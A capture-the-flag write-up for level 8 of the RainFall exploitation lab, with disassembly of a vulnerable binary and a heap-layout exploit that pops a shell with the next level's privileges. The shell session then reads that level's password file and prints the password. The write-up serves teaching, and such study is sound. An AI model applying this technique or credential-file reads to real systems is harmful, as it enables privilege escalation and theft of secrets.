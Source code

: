 # Level 8

Once logged in, you will see a binary `level8`.

```
$ ssh localhost -p 4444 -l level8
	  _____       _       ______    _ _
	 |  __ \     (_)     |  ____|  | | |
	 | |__) |__ _ _ _ __ | |__ __ _| | |
	 |  _  /  _` | | '_ \|  __/ _` | | |
	 | | \ \ (_| | | | | | | | (_| | | |
	 |_|  \_\__,_|_|_| |_|_|  \__,_|_|_|

                 Good luck & Have fun

  To start, ssh with level0/level0 on localhost:4242
level8@localhost's password:
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level8/level8
level8@RainFall:~$
```


Let's run this and see what this does.

```
level8@RainFall:~$ ls
level8
level8@RainFall:~$ ./level8
(nil), (nil)
aaaaaaaaaaaaaaaaaaaaa
(nil), (nil)
```

Okay, seems little differnt from past levels. By taking a look at the binary, there is only a `main` function.

```
gdb-peda$ info functions
All defined functions:

Non-debugging symbols:
[...]
0x08048564  main
[...]
```

There are two global variables `auth`, and `service`, which might be a hint to the solution.

```
gdb-peda$ info variables
All defined variables:

Non-debugging symbols:
[...]
0x08049aac  auth
0x08049ab0  service
```

Let's take a look at the main function.

```
gdb-peda$ disass main
Dump of assembler code for function main:
   0x08048564 <+0>:	push   ebp
   0x08048565 <+1>:	mov    ebp,esp
   0x08048567 <+3>:	push   edi
   0x08048568 <+4>:	push   esi
   0x08048569 <+5>:	and    esp,0xfffffff0
   0x0804856c <+8>:	sub    esp,0xa0
   0x08048572 <+14>:	jmp    0x8048575 <main+17>
   0x08048574 <+16>:	nop
   0x08048575 <+17>:	mov    ecx,DWORD PTR ds:0x8049ab0
   0x0804857b <+23>:	mov    edx,DWORD PTR ds:0x8049aac
   0x08048581 <+29>:	mov    eax,0x8048810
   0x08048586 <+34>:	mov    DWORD PTR [esp+0x8],ecx
   0x0804858a <+38>:	mov    DWORD PTR [esp+0x4],edx
   0x0804858e <+42>:	mov    DWORD PTR [esp],eax
   0x08048591 <+45>:	call   0x8048410 <printf@plt>
   0x08048596 <+50>:	mov    eax,ds:0x8049a80
   0x0804859b <+55>:	mov    DWORD PTR [esp+0x8],eax
   0x0804859f <+59>:	mov    DWORD PTR [esp+0x4],0x80
   0x080485a7 <+67>:	lea    eax,[esp+0x20]
   0x080485ab <+71>:	mov    DWORD PTR [esp],eax
   0x080485ae <+74>:	call   0x8048440 <fgets@plt>
   0x080485b3 <+79>:	test   eax,eax
   0x080485b5 <+81>:	je     0x804872c <main+456>
   0x080485bb <+87>:	lea    eax,[esp+0x20]
   0x080485bf <+91>:	mov    edx,eax
   0x080485c1 <+93>:	mov    eax,0x8048819
   0x080485c6 <+98>:	mov    ecx,0x5
   0x080485cb <+103>:	mov    esi,edx
   0x080485cd <+105>:	mov    edi,eax
   0x080485cf <+107>:	repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
   0x080485d1 <+109>:	seta   dl
   0x080485d4 <+112>:	setb   al
   0x080485d7 <+115>:	mov    ecx,edx
   0x080485d9 <+117>:	sub    cl,al
   0x080485db <+119>:	mov    eax,ecx
   0x080485dd <+121>:	movsx  eax,al
   0x080485e0 <+124>:	test   eax,eax
   0x080485e2 <+126>:	jne    0x8048642 <main+222>
   0x080485e4 <+128>:	mov    DWORD PTR [esp],0x4
   0x080485eb <+135>:	call   0x8048470 <malloc@plt>
   0x080485f0 <+140>:	mov    ds:0x8049aac,eax
   0x080485f5 <+145>:	mov    eax,ds:0x8049aac
   0x080485fa <+150>:	mov    DWORD PTR [eax],0x0
   0x08048600 <+156>:	lea    eax,[esp+0x20]
   0x08048604 <+160>:	add    eax,0x5
   0x08048607 <+163>:	mov    DWORD PTR [esp+0x1c],0xffffffff
   0x0804860f <+171>:	mov    edx,eax
   0x08048611 <+173>:	mov    eax,0x0
   0x08048616 <+178>:	mov    ecx,DWORD PTR [esp+0x1c]
   0x0804861a <+182>:	mov    edi,edx
   0x0804861c <+184>:	repnz scas al,BYTE PTR es:[edi]
   0x0804861e <+186>:	mov    eax,ecx
   0x08048620 <+188>:	not    eax
   0x08048622 <+190>:	sub    eax,0x1
   0x08048625 <+193>:	cmp    eax,0x1e
   0x08048628 <+196>:	ja     0x8048642 <main+222>
   0x0804862a <+198>:	lea    eax,[esp+0x20]
   0x0804862e <+202>:	lea    edx,[eax+0x5]
   0x08048631 <+205>:	mov    eax,ds:0x8049aac
   0x08048636 <+210>:	mov    DWORD PTR [esp+0x4],edx
   0x0804863a <+214>:	mov    DWORD PTR [esp],eax
   0x0804863d <+217>:	call   0x8048460 <strcpy@plt>
   0x08048642 <+222>:	lea    eax,[esp+0x20]
   0x08048646 <+226>:	mov    edx,eax
   0x08048648 <+228>:	mov    eax,0x804881f
   0x0804864d <+233>:	mov    ecx,0x5
   0x08048652 <+238>:	mov    esi,edx
   0x08048654 <+240>:	mov    edi,eax
   0x08048656 <+242>:	repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
   0x08048658 <+244>:	seta   dl
   0x0804865b <+247>:	setb   al
   0x0804865e <+250>:	mov    ecx,edx
   0x08048660 <+252>:	sub    cl,al
   0x08048662 <+254>:	mov    eax,ecx
   0x08048664 <+256>:	movsx  eax,al
   0x08048667 <+259>:	test   eax,eax
   0x08048669 <+261>:	jne    0x8048678 <main+276>
   0x0804866b <+263>:	mov    eax,ds:0x8049aac
   0x08048670 <+268>:	mov    DWORD PTR [esp],eax
   0x08048673 <+271>:	call   0x8048420 <free@plt>
   0x08048678 <+276>:	lea    eax,[esp+0x20]
   0x0804867c <+280>:	mov    edx,eax
   0x0804867e <+282>:	mov    eax,0x8048825
   0x08048683 <+287>:	mov    ecx,0x6
   0x08048688 <+292>:	mov    esi,edx
   0x0804868a <+294>:	mov    edi,eax
   0x0804868c <+296>:	repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
   0x0804868e <+298>:	seta   dl
   0x08048691 <+301>:	setb   al
   0x08048694 <+304>:	mov    ecx,edx
   0x08048696 <+306>:	sub    cl,al
   0x08048698 <+308>:	mov    eax,ecx
   0x0804869a <+310>:	movsx  eax,al
   0x0804869d <+313>:	test   eax,eax
   0x0804869f <+315>:	jne    0x80486b5 <main+337>
   0x080486a1 <+317>:	lea    eax,[esp+0x20]
   0x080486a5 <+321>:	add    eax,0x7
   0x080486a8 <+324>:	mov    DWORD PTR [esp],eax
   0x080486ab <+327>:	call   0x8048430 <strdup@plt>
   0x080486b0 <+332>:	mov    ds:0x8049ab0,eax
   0x080486b5 <+337>:	lea    eax,[esp+0x20]
   0x080486b9 <+341>:	mov    edx,eax
   0x080486bb <+343>:	mov    eax,0x804882d
   0x080486c0 <+348>:	mov    ecx,0x5
   0x080486c5 <+353>:	mov    esi,edx
   0x080486c7 <+355>:	mov    edi,eax
   0x080486c9 <+357>:	repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
   0x080486cb <+359>:	seta   dl
   0x080486ce <+362>:	setb   al
   0x080486d1 <+365>:	mov    ecx,edx
   0x080486d3 <+367>:	sub    cl,al
   0x080486d5 <+369>:	mov    eax,ecx
   0x080486d7 <+371>:	movsx  eax,al
   0x080486da <+374>:	test   eax,eax
   0x080486dc <+376>:	jne    0x8048574 <main+16>
   0x080486e2 <+382>:	mov    eax,ds:0x8049aac
   0x080486e7 <+387>:	mov    eax,DWORD PTR [eax+0x20]
   0x080486ea <+390>:	test   eax,eax
   0x080486ec <+392>:	je     0x80486ff <main+411>
   0x080486ee <+394>:	mov    DWORD PTR [esp],0x8048833
   0x080486f5 <+401>:	call   0x8048480 <system@plt>
   0x080486fa <+406>:	jmp    0x8048574 <main+16>
   0x080486ff <+411>:	mov    eax,ds:0x8049aa0
   0x08048704 <+416>:	mov    edx,eax
   0x08048706 <+418>:	mov    eax,0x804883b
   0x0804870b <+423>:	mov    DWORD PTR [esp+0xc],edx
   0x0804870f <+427>:	mov    DWORD PTR [esp+0x8],0xa
   0x08048717 <+435>:	mov    DWORD PTR [esp+0x4],0x1
   0x0804871f <+443>:	mov    DWORD PTR [esp],eax
   0x08048722 <+446>:	call   0x8048450 <fwrite@plt>
   0x08048727 <+451>:	jmp    0x8048574 <main+16>
   0x0804872c <+456>:	nop
   0x0804872d <+457>:	mov    eax,0x0
   0x08048732 <+462>:	lea    esp,[ebp-0x8]
   0x08048735 <+465>:	pop    esi
   0x08048736 <+466>:	pop    edi
   0x08048737 <+467>:	pop    ebp
   0x08048738 <+468>:	ret
End of assembler dump.
```

It is a huge assembly code, but once decompiling them, the program functions as follows:
1. It first prints the address of auth and service, and prints while looping.
2. Gets input from the user
3. Checks first input if it' a string that matches `"auth "` (5 chars including space). If true, it copies over the string after `"auth "` to a `malloc`ed string of size 4. (Max string length after `"auth "` is 30 bytes.)
4. If the input is `"reset"`, it frees the global variable `auth`.
5. If the input is `"service"`, it duplicates `buffer` starting after the first 7 chars into the globial variable `service`.
6. if the input is `"login"`, there is another conditional statement within:
	1. If `auth[32]` is not `NULL`, it executes `system("/bin/sh")`
	2. Else, it prints `"Password:\n"` to stdout.


Let's run the program and see how it works.

```
level8@RainFall:~$ ./level8
(nil), (nil)
auth
0x804a008, (nil)
login
Password:
0x804a008, (nil)
auth
0x804a008, (nil)
service
0x804a008, 0x804a018
```

By giving an input of service after putting the auth, we can see the address of the service, and they are very close. With `malloc`, each pointer is placed right after the previous ones with some padding in between.

To solve the problem and to set `auth[32]` value to not zero, we just need to get `auth[32]` to land within the `service` string. Here's a visualization of the memory as it is set during the exploit.

```
The memory: auth            service123456789012345a
            ^               ^                     ^
            0x804a008       0x804a018             auth[32]
```

The exploit in action:

```
level8@RainFall:~$ ./level8
(nil), (nil)
auth
0x804a008, (nil)
service123456789012345a // <- a on 16th padding
0x804a008, 0x804a018    // NOTE: 32 chars after 0x804a008 is within 0x804a018 if that is more than 16 chars long
login
$ id
uid=2008(level8) gid=2008(level8) euid=2009(level9) egid=100(users) groups=2009(level9),100(users),2008(level8)
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```
